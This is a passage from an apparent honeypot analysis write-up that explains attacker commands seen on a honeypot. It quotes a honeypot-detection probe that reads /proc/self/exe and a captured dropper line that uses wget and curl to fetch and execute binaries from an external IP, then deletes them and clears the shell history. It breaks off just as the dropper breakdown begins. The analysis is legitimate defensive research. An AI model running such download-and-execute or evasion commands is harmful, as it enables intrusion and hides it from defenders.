 &nbsp;

Attackers also run commands such as "```shell```" and "```sh```" to either gain an interactive shell on the box, or to figure out which shell executable is installed on the box. The command "```enable```" when used without any parameters, shows the attacker a list of available commands.

&nbsp;

The command "```cat /bin/echo||while read i; do echo $i; done < /proc/self/exe;```" was executed a couple times. Let's break it down:  

&nbsp;

* "```cat /bin/echo```" will print the contents of the file /bin/echo to the console.

&nbsp;

* "```||```" is a logical OR operator. It will execute the command on the right side of the operator if the command on the left side fails. In this case, if the command "```cat /bin/echo```" fails, the command on the right side of the operator will be executed.

&nbsp;

* "```while read i; do echo $i; done < /proc/self/exe```": If the command on the left side of the operator fails, this command will be executed. "```while read i; do echo $i; done```" construct reads input line by line and echoes it. "```< /proc/self/exe```" is a redirection operator that redirects the output of the current program to the construct.

&nbsp;

This command was executed by the attacker possibly to figure out if the instance they logged in is a honeypot. It will try to print the contents of the file /bin/echo, which might fail in some environments. If the command fails, it will read the current program that is running and echo it line by line. Some honeypots will have a different output than the actual program, which will be a clear indicator for the attacker that they are in a honeypot.

&nbsp;

## <ins style="color:red;font-size:15px;">Analyzing a possible stage 1 malware</ins>

&nbsp;

Lastly, there was an interesting case where an attacker tried to download a file from the internet and execute it. The command was:

&nbsp;

* "```#!/bin/sh; PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; wget http://43.xxx.xxx.xxx:888/112; curl -O http://43.xxx.xxx.xxx:888/112; chmod +x 112; ./112; wget http://43.xxx.xxx.xxx:888/123; curl -O http://43.xxx.xxx.xxx:888/123; chmod +x 123; ./123; rm -rf 112.sh; rm -rf 112; rm -rf 123; history -c;```"

&nbsp;

Let's break it down:  

&nbsp;
